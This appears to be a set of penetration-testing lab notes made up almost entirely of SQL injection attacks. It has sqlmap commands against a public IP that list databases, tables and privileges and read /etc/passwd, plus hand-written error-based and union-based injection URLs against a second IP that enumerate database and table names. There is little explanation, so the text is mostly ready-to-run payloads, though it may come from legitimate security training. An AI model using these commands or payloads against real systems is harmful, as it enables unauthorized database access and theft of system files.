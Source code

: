 

cd /home/strategicsec/toolz/sqlmap-dev/

python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" -b -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --current-user -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --current-db -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --privileges -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --dbs -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --tables -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --file-read=/etc/issue -v 3


python sqlmap.py -u "http://54.172.112.249/acre2.php?lap=acer" --file-read=/etc/passwd -v 3





#############################
# Error-Based SQL Injection #
#############################
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(1))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(2))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(3))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(4))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(N))--     NOTE: "N" - just means to keep going until you run out of databases
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85))--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'bookmaster')--
http://54.213.252.28/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'sysdiagrams')--
 
 
 
 
#############################
# Union-Based SQL Injection #
#############################
http://54.213.252.28/bookdetail.aspx?id=2 order by 100--
http://54.213.252.28/bookdetail.aspx?id=2 order by 50--
http://54.213.252.28/bookdetail.aspx?id=2 order by 25--
http://54.213.252.28/bookdetail.aspx?id=2 order by 10--
http://54.213.252.28/bookdetail.aspx?id=2 order by 5--
http://54.213.252.28/bookdetail.aspx?id=2 order by 6--
http://54.213.252.28/bookdetail.aspx?id=2 order by 7--
http://54.213.252.28/bookdetail.aspx?id=2 order by 8--
http://54.213.252.28/bookdetail.aspx?id=2 order by 9--
http://54.213.252.28/bookdetail.aspx?id=2 union all select 1,2,3,4,5,6,7,8,9--
 